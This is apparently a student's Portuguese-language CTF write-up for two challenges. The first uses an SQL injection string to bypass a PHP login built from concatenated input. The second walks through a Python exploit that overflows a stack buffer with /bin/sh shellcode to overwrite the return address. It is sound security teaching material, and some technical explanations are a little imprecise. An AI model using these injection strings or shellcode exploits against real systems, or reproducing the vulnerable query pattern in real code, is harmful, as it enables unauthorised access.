 # CTF - WEEK 8[](url)

## Challenge #1

**1.** Ao analisar o ficheiro _index.php_, podémos verificar que este continha uma linha onde é possível ocorrer um vulnerabilidade. 

![Terminal print - index.php file](CTFs/Img/Semana8-Desafio1/1.index_php.png)

- Podemos verificar que podemos inserir, na linha em baixo no campo $username, uma subquery que nos permita fazer login com a conta do administrador.

```php
$username = $_POST['username'];
$password = $_POST['password'];
               
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

**2.** Sendo assim, no campo _username_ no servidor poderemos colocar a seguinte _string_:

```sql
admin'; --
```
![Terminal print - login page](CTFs/Img/Semana8-Desafio1/2.login.png)


**3.** Ao instroduzir a _stirng_ referida em cima, podemos verificar que a query do ficheiro vai ficar:

```sql
SELECT username FROM user WHERE username = 'admin'; -- ".$username."' AND password = '".$password."'";
```

- Assim, conseguimos fazer "login" na conta do administrador e obter a flag.

![Terminal print - flag result](CTFs/Img/Semana8-Desafio1/3.result.png)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

**2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

**2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

**2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

**2.4.** Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

**2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).

![termina print - flag result](CTFs/Img/Semana8-Desafio2/3.result_flag.png)
